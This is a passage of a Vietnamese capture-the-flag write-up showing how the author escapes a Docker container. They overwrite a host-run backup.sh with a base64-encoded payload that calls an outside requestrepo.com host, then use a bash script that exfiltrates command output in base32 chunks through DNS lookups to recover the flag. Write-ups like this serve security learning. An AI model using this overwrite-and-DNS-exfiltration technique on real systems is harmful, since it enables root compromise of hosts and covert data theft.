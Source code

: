 ```
rce> find / -type f -name '*.sh'   
/opt/backups/backup.sh
/etc/init.d/hwclock.sh
/lib/init/vars.sh
/usr/local/lib/php/build/ltmain.sh
/usr/share/debconf/confmodule.sh
```
Ta phát hiện thư mục `backups` tại `/opt` gồm `backup.sh` và `backup.tar`
```bash
rce> cd ../../../opt/backups; ls
backup.sh
backup.tar
```

Có vẻ như thư mục này sẽ được thực thi bởi host chứ không phải container docker hiện tại để backup toàn bộ server. Như vậy, bằng việc sửa `backup.sh`, ta có thể thực thi RCE trên host.

Tuy vậy, qua nhiều lần thử nghiệm, ta chỉ có thể thực hiện kiểm tra điều này thông qua kĩ thuật OOB bằng DNS. Có vẻ như host đã chặn HTTP/HTTPS và TCP, khá khó hiểu.

Ví dụ, để có thể khiến host thực thi query DNS, ta sẽ dùng 
```
cd /opt/backups;echo "IyEvYmluL2Jhc2gKY3VybCBodHRwOi8vdXc3Z2JsaWcucmVxdWVzdHJlcG8uY29t" | base64 -d > backup.sh;
```
Phần base64 encoding có nội dung là 
```
#!/bin/bash
curl http://uw7gblig.requestrepo.com
```
Như vậy, ta đã có thể khiến host thực thi câu lệnh curl vì host sẽ thực thi backup.sh (có thể qua một cronjob, hoặc bash tự động). Sau một thời gian ngắn, ta có thể nhận được các gói tin DNS của host, xác nhận khả năng exfiltration thông qua phương pháp này.

Để có thể đọc được output của câu lệnh, ta có thể encode kết quả của câu lệnh dưới dạng base32, sau đó chia nhỏ từng phần để có thể đủ chứa trong domain name. Sau đó thực hiện gọi từng domain này:
```bash
#!/bin/bash
CMD="id;ls"
DOMAIN="uw7gblig.requestrepo.com"
payload=$( bash -c "$CMD" | base32 | tr -d '=\n' )
chunk_size=32
len=${#payload}
for (( offset=0; offset < len; offset += chunk_size )); do
  chunk=${payload:offset:chunk_size}
  idx=$(( offset / chunk_size ))
  fqdn="${chunk}.${idx}.${DOMAIN}"
  nslookup "$fqdn"
  sleep 0.2
done
```
Kết quả trả về cho ta thấy đã thành công RCE trên host với user root. Đồng thời trong thư mục hiện tại chứa flag cuối cùng. Thay thế câu lệnh trong bash script trên thành `cat flag4.txt`, ta nhận được các gói DNS sau:
```
KREE263FONRTI3BUORUW63TTL5XW4X3F.0.uw7gblig.requestrepo.com
ONRTI3BUORUW63TTL5XW4X3FONRTI3BU.1.uw7gblig.requestrepo.com
ORUW63TTL43WCNJSMIYTOZDCME3GKYTC.2.uw7gblig.requestrepo.com
GBSGGMZYMJRTCMBUHFRGGYTBGA******.3.uw7gblig.requestrepo.com
```
